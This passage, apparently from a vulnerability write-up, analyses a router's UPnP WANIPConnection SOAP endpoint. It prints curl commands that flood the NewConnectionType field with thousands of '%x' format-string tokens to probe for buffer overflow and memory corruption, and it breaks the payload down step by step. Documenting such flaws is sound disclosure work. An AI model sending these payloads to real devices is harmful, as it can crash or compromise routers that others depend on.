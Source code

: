 ### Video Demonstration of this command:
https://github.com/user-attachments/assets/44988079-0d8c-4e5d-b09d-8856edaaf34a


### 2) Malformed Command Analysis (Potential Buffer Overflow and Memory Corruption)
#### Vulnerable Command & Behavior
```bash
curl -v -X POST "http://192.168.1.1:5431/control/WANIPConnection" \
     -H "Content-Type: text/xml" \
     -H "SOAPAction: \"urn:schemas-upnp-org:service:WANIPConnection:1#SetConnectionType\"" \
     -d '<?xml version="1.0"?>
<s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/">
  <s:Body>
    <u:SetConnectionType xmlns:u="urn:schemas-upnp-org:service:WANIPConnection:1">
      <NewConnectionType>'"$(perl -e 'print "%x" x 10000;')"'</NewConnectionType>
    </u:SetConnectionType>
  </s:Body>
</s:Envelope>'
```

#### Command Breakdown

1. **Request Components**

   - **Method:** POST
   - **Port:** 5431
   - **Endpoint:** `/control/WANIPConnection`
   - **Headers:**
     - `Content-Type: text/xml`
     - `SOAPAction: "urn:schemas-upnp-org:service:WANIPConnection:1#SetConnectionType"`
   - **Payload:**
     - **Injected Payload:** `"%x" x 10000` generates a string of 10,000 `%x` repetitions within the `<NewConnectionType>` tag.

2. **Payload Analysis**
   - **Injected Content:** `"%x%x%x%x...%x"` (10,000 times)
   - **Purpose:** To flood the `<NewConnectionType>` field with an excessively large and repetitive string, to attempt to exceed buffer limits.

### Observed Behavior

#### We send a valid request to test the SOAP structure:

```bash
curl -v -X POST "http://192.168.1.1:5431/control/WANIPConnection" \
     -H "Content-Type: text/xml" \
     -H "SOAPAction: \"urn:schemas-upnp-org:service:WANIPConnection:1#SetConnectionType\"" \
     -d '<?xml version="1.0"?>
<s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/">
  <s:Body>
    <u:SetConnectionType xmlns:u="urn:schemas-upnp-org:service:WANIPConnection:1">
      <NewConnectionType>'"$(perl -e 'print "%x" x 10;')"'</NewConnectionType>
    </u:SetConnectionType>
  </s:Body>
</s:Envelope>'
```
